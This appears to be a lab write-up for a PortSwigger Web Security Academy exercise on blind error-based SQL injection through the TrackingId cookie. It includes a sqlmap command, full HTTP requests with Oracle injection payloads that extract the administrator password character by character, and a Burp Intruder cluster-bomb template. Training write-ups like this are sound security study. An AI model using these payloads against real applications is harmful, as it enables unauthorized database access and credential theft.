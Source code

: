 
oracle
##### Base request
GET /filter?category=Pets HTTP/2
Host: 0a0d0020045bf99180a803af0010003c.web-security-academy.net
Cookie: TrackingId=PED0ADMMNqVyeMAo; session=HnT5nKD5umO9mPoEVtAf37oP6CgSY5sP
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a0d0020045bf99180a803af0010003c.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

##### Step1: Identify SQLi vulnerability 
Run sqlmap on possible vectors.
normally in the url and on the cookies.

The cookies can be mapped with:
_sqlmap -u "https://0a0d0020045bf99180a803af0010003c.web-security-academy.net/filter?category=Pets" --cookie='TrackingId=PED0ADMMNqVyeMAo; session=HnT5nKD5umO9mPoEVtAf37oP6CgSY5sP' -p "TrackingId" --param-filter="COOKIE" --skip="session" --level=2_

In this lab the _TrackingId_ cookie was vulnerable and CANNOT see any visible change at first. Try to break the backend and see if it displays error message. (Division by 0 error or summin)
##### Step2: Confirm the vulnerability
GET /filter?category=Pets HTTP/2
Host: 0a0d0020045bf99180a803af0010003c.web-security-academy.net
Cookie: TrackingId=PED0ADMMNqVyeMAo _' UNION (SELECT CASE WHEN (1=1 THEN TO_CHAR(1/0) ELSE NULL END FROM dual)--_; session=HnT5nKD5umO9mPoEVtAf37oP6CgSY5sP
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a0d0020045bf99180a803af0010003c.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


##### Step3: Confirm the existence of administrator user
GET /product?productId=6 HTTP/2
Host: 0a6d005e0495508b81d4cfcf009f00c5.web-security-academy.net
Cookie: TrackingId=Azz0AjGBIQfIehkH _' AND 1=(SELECT CASE WHEN (1=(SELECT 1 FROM users WHERE username ='administrator')) THEN 1 ELSE 0 END)--_; session=vaZ8eWHeYdMX5gz9ea6kRlTyZuqXfqss
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a6d005e0495508b81d4cfcf009f00c5.web-security-academy.net/filter?category=Gifts
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

##### Step4: Build Skelton to exfil administrator password 
I used this to double check if the SQUEEEAL syntax was correct by manually identifying the first 
char in the password. Skip the manual work if you're confident in you SQL capabilities.  

GET /filter?category=Pets HTTP/2
Host: 0a0d0020045bf99180a803af0010003c.web-security-academy.net
Cookie: TrackingId=PED0ADMMNqVyeMAo _' UNION (SELECT CASE WHEN ('a'=SUBSTR((SELECT password FROM users WHERE username='administrator'), 1, 1)) THEN TO_CHAR(1/0) ELSE NULL END FROM dual)--_; session=HnT5nKD5umO9mPoEVtAf37oP6CgSY5sP
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a0d0020045bf99180a803af0010003c.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


##### Step6: Craft the Intruder Cluster bomb attack
GET /filter?category=Pets HTTP/2
Host: 0a0d0020045bf99180a803af0010003c.web-security-academy.net
Cookie: TrackingId=PED0ADMMNqVyeMAo' UNION (SELECT CASE WHEN ('§a§'=SUBSTR((SELECT password FROM users WHERE username='administrator'), §1§, 1)) THEN TO_CHAR(1/0) ELSE NULL END FROM dual)--; session=HnT5nKD5umO9mPoEVtAf37oP6CgSY5sP
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a0d0020045bf99180a803af0010003c.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

Under **Payloads** add the following sets:
- **Payload set 1**: a-z, A-Z, 0-9     (Simple list)
- **Payload set 2**: 0-25                   (Numbers)   
##### Step7: Run the b-word
Sort after 500 and bam. 
Ez sit kid.